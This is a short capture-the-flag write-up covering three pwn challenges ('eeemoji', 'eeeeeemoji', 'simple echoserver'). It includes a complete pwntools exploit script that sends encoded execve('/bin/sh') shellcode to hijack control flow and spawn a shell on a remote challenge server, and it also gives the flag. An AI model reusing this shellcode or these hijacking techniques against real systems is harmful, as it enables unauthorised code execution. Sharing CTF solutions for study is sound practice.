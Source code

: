 ## eeemoji

In the `🐴` function, we can control 2-byte assembly code. I use `push r11` to hijack control flow to our shellcode.

```python
# flag{zer0_address_is_so0o0o0o_dangerous}

from pwn import *
from subprocess import check_output
import sys

context.arch = 'amd64'
context.log_level = "debug"
context.terminal = ['tmux', 'split', '-h']

binary = ("./eeemoji")
elf = ELF(binary, checksec=False)
libc = elf.libc

if not args['REMOTE']:
    r = process(binary)
else:
    r = remote("pwnable.org", 31322)

def get_utf8(c):
    out = check_output("echo '{}' | ./convert2".format(c), shell=True)
    return out

menu_indictor = "\xf0\x9f\x8d\xba\x0a"
edit_indictor = "\xf0\x9f\x98\x93\x0a"

bull = u'\U0001f42e'.encode("utf-8")
beer = u'\U0001f37a'.encode("utf-8")
horse = u'\U0001f434'.encode("utf-8")

def beerfunc():
    r.sendlineafter(menu_indictor, beer)

def bullfunc():
    r.sendlineafter(menu_indictor, bull)

def horsefunc(data):
    r.sendlineafter(menu_indictor, horse)
    r.sendafter(edit_indictor, data)

beerfunc()

sh = 'jhPXH\xb8/bin///sPH\x89\xe7hri\x01\x01PX\x814$\x01\x01\x01\x011\xf6Vj\x08^H\x01\xe6VPXH\x89\xe61\xd2j;X' 
data = ""
for i in xrange(0, len(sh), 4):
    x = u32(sh[i:i+4])
    data += get_utf8(x)
data += get_utf8(0x050f)

payload = 'a'
payload += data
payload += 'a'*(0x80-1-14)
payload += get_utf8(0x5341)

horsefunc(payload)

r.interactive()
```

## eeeeeemoji

We can use `and esp, edx` to hijack control flow. Several times needed.

## simple echoserver

Modify the ebp chain to stack pivot, and modify main_ret to one_gadget. 1/32 probability.
